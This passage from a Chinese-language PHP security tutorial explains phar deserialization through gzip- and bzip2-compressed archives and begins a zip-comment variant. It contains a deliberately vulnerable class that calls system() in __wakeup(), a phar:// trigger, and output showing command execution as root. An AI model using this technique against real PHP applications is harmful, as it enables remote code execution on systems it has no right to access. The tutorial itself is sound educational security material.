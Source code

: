 load.php
```php
<?php
class Sink{
        function __wakeup(){
            system($this->cmd);
        }
    }

file_get_contents("phar://./test.phar.gz");
```

### bzip
与 gzip 基本一致，生成 phar 文件之后，再使用 bzip2 进行压缩即可生成 payload. 
```
bzip2 test.phar
```
php 中要读取 bzip2 文件需要安装 php-bz2 扩展。

load.php
```php
<?php
class Sink{
        function __wakeup(){
            system($this->cmd);
        }
    }

file_get_contents("phar://./test.phar.bz2");
```
运行结果如下，可以看到成功反序列化。
```bash
root@b7678c131adb:/var/www/html# php load.php 
PHP Deprecated:  Directive 'track_errors' is deprecated in Unknown on line 0

Deprecated: Directive 'track_errors' is deprecated in Unknown on line 0
uid=0(root) gid=0(root) groups=0(root)
PHP Warning:  file_get_contents(phar://./test.phar.bz2): failed to open stream: phar error: file "" in phar "./test.phar.bz2" cannot be empty in /var/www/html/load.php on line 12
PHP Stack trace:
PHP   1. {main}() /var/www/html/load.php:0
PHP   2. file_get_contents() /var/www/html/load.php:12

Warning: file_get_contents(phar://./test.phar.bz2): failed to open stream: phar error: file "" in phar "./test.phar.bz2" cannot be empty in /var/www/html/load.php on line 12

Call Stack:
    0.0005     385696   1. {main}() /var/www/html/load.php:0
    0.0005     385696   2. file_get_contents() /var/www/html/load.php:12

```

### zip
如果我们将序列化的内容加入到 zip 文件的 comment 中，php 在解析这个 zip 文件时也会触发反序列化。
